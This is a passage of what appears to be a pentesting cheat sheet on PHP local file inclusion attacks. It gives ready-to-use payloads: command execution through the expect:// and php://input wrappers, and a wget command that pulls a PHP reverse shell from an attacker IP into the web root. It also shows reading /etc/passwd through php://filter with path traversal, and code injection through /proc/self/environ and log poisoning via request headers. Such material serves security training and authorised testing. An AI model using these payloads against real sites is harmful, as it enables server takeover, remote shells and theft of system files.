 PHP Wrapper expect:// LFI

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

`http://127.0.0.1/fileincl/example1.php?page=expect://ls`

Below is the error received if the PHP expect wrapper is disabled:

```
Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
```

### PHP Wrapper php://file

Another PHP wrapper, php://input your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.

Example:

`http://192.168.183.128/fileincl/example1.php?page=php://input`

Post Data payload, try something simple to start with like: 

`<? system('uname -a');?>`

Then try and download a reverse shell from your attacking machine using:

`<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>`

After uploading execute the reverse shell at 

`http://192.168.183.129/shell.php`

### PHP Wrapper php://filter

Another PHP wrapper, `php://filter` in this example the output is encoded using base64, so you’ll need to decode the output.

`http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd`

### /proc/self/environ LFI Method

If it’s possible to include `/proc/self/environ` from your vulnerable LFI script, then code execution can be leveraged by manipulating the `User Agent` parameter with Burp. After the PHP code has been introduced `/proc/self/environ` can be executed via your vulnerable LFI script.

### /proc/self/fd/ LFI Method

Similar to the previous `/proc/self/environ` method, it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the `referer`.

This method is a little tricky as the proc file that contains the Apache error log information changes under `/proc/self/fd/` e.g. `/proc/self/fd/2`, `/proc/self/fd/10` etc. I’d recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB’s [LFI-FD-Check.txt](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt) list of likely proc files, you can then monitor the returned page sizes and investigate.

### fimap LFI Pen Testing Tool

fimap is a [tool used on pen tests](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) that automates the above processes of discovering and exploiting LFI scripts. Upon discovering a vulnerable LFI script fimap will enumerate the local filesystem and search for writable log files or locations such as `/proc/self/environ`. Another tool commonly used by pen testes to automate LFI discovery is Kali’s dotdotpwn, which works in a similar way.

### fimap + phpinfo() Exploit

Fimap exploits PHP’s temporary file creation via Local File Inclusion by abusing PHPinfo() information disclosure glitch to reveal the location of the created temporary file.

If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.

Enjoy.

